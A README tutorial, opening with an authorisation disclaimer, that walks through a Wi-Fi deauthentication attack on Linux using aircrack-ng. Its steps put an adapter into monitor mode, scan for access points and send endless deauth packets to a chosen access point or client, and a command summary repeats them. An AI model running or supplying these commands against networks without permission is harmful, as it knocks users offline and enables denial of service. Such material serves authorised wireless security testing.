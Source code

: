 

## ⚠️ Disclaimer

> This guide is for **educational purposes only**. Unauthorized access or disruption of any network is illegal and unethical. Only test on networks **you own or have explicit permission** to audit.

---

# 🔧 Wi-Fi Deauthentication Attack Guide (Linux)

This README outlines the steps to perform a deauthentication attack using `aircrack-ng` tools on a compatible wireless card in monitor mode.

---

## 🛠 Prerequisites

* A compatible Wi-Fi adapter that supports monitor mode and packet injection
* Linux OS
* `aircrack-ng` suite installed

Install it if not already:

```bash
sudo apt update && sudo apt install aircrack-ng -y
```

---

## 1. Identify Wireless Interface

```bash
iwconfig
```

Look for your wireless adapter (e.g., `wlo1`). It should show IEEE 802.11 capabilities.

---

## 2. Kill Conflicting Processes

Before enabling monitor mode, kill network managers to avoid interference:

```bash
sudo airmon-ng check kill
```

> 📝 **Note**: This will disconnect you from the internet.

---

## 3. Enable Monitor Mode

Use `airmon-ng` to put your wireless adapter into monitor mode:

```bash
sudo airmon-ng start wlo1
```

This will likely create a new interface (e.g., `wlo1mon`).

---

## 4. Discover Nearby Access Points

Use `airodump-ng` to scan for wireless networks:

```bash
sudo airodump-ng wlo1mon
```

* **BSSID**: MAC address of the access point
* **CH**: Channel
* **ESSID**: Network name (SSID)

> Make note of the **BSSID** and **channel** of your target network.

---

## 5. Set Interface to Target Channel

You must ensure your wireless card is tuned to the same channel as the target AP:

```bash
sudo iwconfig wlo1mon channel <channel_number>
```

Replace `<channel_number>` with the one noted from the previous step.

---

## 6. Perform Deauthentication Attack

Once on the correct channel, execute the deauth attack:

```bash
sudo aireplay-ng --deauth 0 -a <BSSID> wlo1mon 
```

* `--deauth 0`: Infinite deauth packets
* `-a <BSSID>`: Target AP MAC address


> Optionally, add `-c <client MAC>` to target a specific client.

---

## 7. Stop Monitor Mode & Restore Services

After your testing is complete, revert everything:

```bash
# Disable monitor mode
sudo airmon-ng stop wlo1mon

# Restart networking services
sudo systemctl restart NetworkManager
```


---


### Permission Denied on Channel Setting

If you see an error like `Operation not permitted`, prefix your command with `sudo`.

---


## ✅ Summary of Commands

```bash
# Identify interfaces
iwconfig

# Kill processes
sudo airmon-ng check kill

# Enable monitor mode
sudo airmon-ng start wlo1

# Scan APs
sudo airodump-ng wlo1mon

# Set channel
sudo iwconfig wlo1mon channel <channel>

# Deauth attack
sudo aireplay-ng --deauth 0 -a <BSSID> wlo1mon

# Stop monitor mode and restore
sudo airmon-ng stop wlo1mon
sudo systemctl restart NetworkManager

```

---

